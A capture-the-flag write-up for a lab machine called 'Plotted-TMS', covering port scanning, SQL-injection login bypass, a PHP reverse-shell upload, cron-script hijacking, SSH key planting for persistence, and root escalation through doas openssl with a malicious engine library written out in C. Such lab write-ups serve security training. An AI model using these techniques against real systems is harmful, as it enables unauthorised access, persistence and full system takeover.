# Plotted-TMS

## Enumeration

I started Enumeration by running Rustscan on the target. 

```
rustscan -a $machine_IP -- -A -sV -sC -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
Open $machine_IP:445
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## Rabbit-Hole on Port 80 (Not proud of this one 🤷‍♂️)

Running Gobuster on Port 80 led me down a rabbit hole looking for the `id_rsa` key and base64 encoded string which was a dead end. 

```
gobuster dir -u $machine_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k    

-k - skips SSL Cert verification
 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$machine_IP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/20 01:24:36 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 310] [--> http://$machine_IP/admin/]
/shadow               (Status: 200) [Size: 25]                                 
/passwd               (Status: 200) [Size: 25]                                 
Progress: 34500 / 220561 (15.64%)
```







`/etc/passwd` typically stores user account information with additional information related to User ID's, Group ID's, among other fields. `/etc/shadow` is usually more sensitive and stores passwords in encrypted hash formats. `id_rsa` is typically the associated users OpenSSH connection. 

I eventually attempted to decode the base64 strings through CyberChef, when I finally realised that it was a dead end. 



## Moving onto Port 445

Going back to my Rustscan results, I decided that it was time to move onto Port 445 which was an Apache default landing page. I ran Gobuster on this port, with better luck this time around. 

```
gobuster dir -u http://$machine_IP:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$machine_IP:445
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/20 01:41:14 Starting gobuster in directory enumeration mode
===============================================================
/management           (Status: 301) [Size: 320] [--> http://$machine_IP:445/management/]
```



Running searchsploit on the target revealed that it was vulnerable to multiple SQLi and XSS Injections



The example indicates that a regular username and password will fail



However, injecting the SQL payload ensures that login as admin on the webserver is possible



In fact, I was able to demonstrate this in Burp Suite. Attempting to intercept the failed login request indicates, through the request, that it is calling out to a SQL database and then errors out, behaviour indicative of SQL Injection (SQLi)



When I use the SQLi payload conveniently provided in the [Exploit](https://www.exploit-db.com/exploits/50387) in the login prompt and intercept this request, I can validate that I am able to login as an admin. 



## User Foothold as www-data

After logging in as the `admin` user, I was able to exploit a file upload vulnerability (which isn't sanitized) and allows an attacker to upload a php reverse shell under a photo upload field. 



Setting my listener on the associated port, I was able to catch a reverse shell.



Attempting to open the `user.txt` flag, shows that this is only available to be read by the `Plot_admin` user and as `www-data` we don't have sufficient permissions.



## Lateral Movement from www-data to Plot_admin

We attempt to find what the `Plot_admin` user has access to with the `find` command where we see that, in addition to the user.txt flag, this user has access to a backup script, which is referred to in the crontab file




This backup script runs every minute and ideally, we'd like to replace this with a malicious script consisting of a payload for a reverse shell. Since this file is run as plot_admin, we can get access to this privileged account. 

Despite `backup.sh` only being written by `plot_admin` we can still write to the `scripts` directory

We start by injecting the reverse shell payload to a new file called `user_foothold`. Then we rename the original `backup.sh` file to `legit_cron`. 

Now that the original file is called `legit_cron` and the malicious payload is called `user_foothold`, the next stage is renaming the malicious payload to `backup.sh` followed by giving it appropriate permissions with `chmod +x backup.sh`

Now we have a malicious payload masking as a legitimate backup.sh script that the crontab is looking for and we open a listener on the port specified on the reverse shell payload injected to the now malicious `backup.sh` script and we wait...

As per the payload, the listening port is 9999 and since the script runs every minute, we wait a minute before we catch the reverse shell. 



**Sidenote**, while logged in as `plot_admin`, we can copy the SSH key and SSH in from the attackbox.

```
cd /home/plot_admin
mkdir .ssh && chmod 0700 .ssh
echo "{pubkey}" > .ssh/authorized_keys
chmod 0600 .ssh/authorized_keys
```

## Privilege Escalation

Now that we are logged in as `plot_admin`, the next stage is escalating this level of permissions to a root level. 

In this case, sudo -l doesn't work as it requires a password.

I modified and ran the find command to see what this user can run and one of the results was worth exploring

```
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/doas
...
```

**Note** - This find command finds files with the SUID bit allowing the attacker to run the file with greater privileges than the currently logged in user. 

According to [Payload of All Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#doas), Doas is an alternative to sudo for OpenBSD and its configuration can be checked at `/etc/doas.conf`

This shows that `openssl` can be exploited to run as root and I was able to validate it with the OpenSSL entry in [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/)

```
doas openssl enc -in "/root/root.txt"
```

This can also be extended for a full reverse shell by creating a `exploit.c` file

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

This needs to be then compiled and run

* `gcc -fPIC -o exploit.o -c exploit.c`
* `gcc -shared -o exploit.so -lcryto exploit.o`

```
openssl req -engine ./exploit.so
```




